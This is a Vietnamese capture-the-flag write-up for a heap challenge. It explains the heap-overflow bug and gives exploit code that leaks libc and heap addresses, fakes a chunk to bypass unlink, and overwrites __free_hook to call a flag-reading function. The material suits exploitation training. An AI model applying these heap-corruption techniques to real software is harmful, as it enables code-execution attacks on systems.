








# 1. Find Bug :
- Gồm 4 hàm :
    + `print` : In ra màn hình các data đã được `insert` => Leak
    + `insert` : Nhập size, `malloc(size)`, nhập data => ko giới hạn size chunk
    + `update` : Sửa size mà ko `malloc()` lại với newsize và cho nhập data theo newsize => `heap overflow`
    + `delete` : Nhập index rồi `free` (ko có `UAF`)

# 2. Idea :
- Với việc ko có `UAF` và có thể overwrite các metadata => dùng `backward consolidation` + `overlap` 



- Có sẵn hàm `secret` để đọc flag
# 3. Exploit :

:
- PIE bật -> Leak binary


---------------------

- Chương trình leak sẵn hộ binary 

## STAGE 1 : LEAK LIBC, HEAP

```
add(0x40, b'SUPPORT') # 0 Control chunk below
add(0x40, b'A') # 1 Anchor
add(0x40, b'B') # 2 Victim
add(0x430, b'C') # 3 Trigger
add(0x40, b'D') # 4 Guard
```
- Ta setup sẵn 5 chunk để leak libc, heap và chuẩn bị cho `backward consolidation`

```
dell(3)
edit(2, 0x100, b'B'*72 + p64(0x441))
view()
p.recvuntil(b'B' * 72)
p.recv(8)
libc_leak = u64(p.recv(8))
log.info(f"libc_leak = {hex(libc_leak)}")
libc.address = libc_leak - 0x3ebc00
log.info(f"libc_base = {hex(libc.address)}")
```
----------------------

- Dùng `view` leak libc <- Main arena <- chunk 3 <- Heap overflow

```
dell(2)
edit(1, 0x100, b'A' * 72 + p64(0x51))
view()
p.recvuntil(b'A' * 72)
p.recv(16)
heap_leak = u64(p.recv(8))
log.info(f"heap_leak = {hex(heap_leak)}")
heap_base = heap_leak - 0x10
log.info(f"heap_base = {hex(heap_base)}")
```
- Leak heap tương tự libc

## STAGE 2 : CONSOLIDATION + OVERLAP
```
add(0x40, b'B')
add(0x430, b'C')
```
- Khôi phục lại các chunk bị `free` và làm sạch

```
edit(0, 0x100, b'S'*72 + p64(0x51) + p64(0) + p64(0x90) + p64(heap_base + 0x2b0) + p64(heap_base + 0x2b0) + p64(0) + p64(0))
```
------------------

- Dùng chunk 0 để tạo `fake chunk` nằm trong chunk 1, nhớ phải có cả FD & BK (mẹo là cho trỏ vào chính `header addres`) -> bypass `unlink`

```
edit(2, 0x100, b'B' * 64 + p64(0x90) + p64(0x440))
```
------------------

- Sửa `PREV_SIZE` của chunk 3 = fake chunk + chunk 2
- Sửa `PREV_INUSE` của chunk 3 = 0

```
dell(3) # Cho vào tcache bin 
dell(0) # Cho vào tcache bin 
dell(2) # Trigger
add(0x4c1, b'A' * 56 + p64(0x51) + p64(libc.sym.__free_hook)) # Overwrite FD pointer victim
add(0x40, b'a')
add(0x40, p64(binary_base + 0x1262)) # Overwrite __free_hook -> `secret`
dell(0)
```

# 4. Get Flag :


# 5. Learned :
- BACKWARD CONSOLIDATION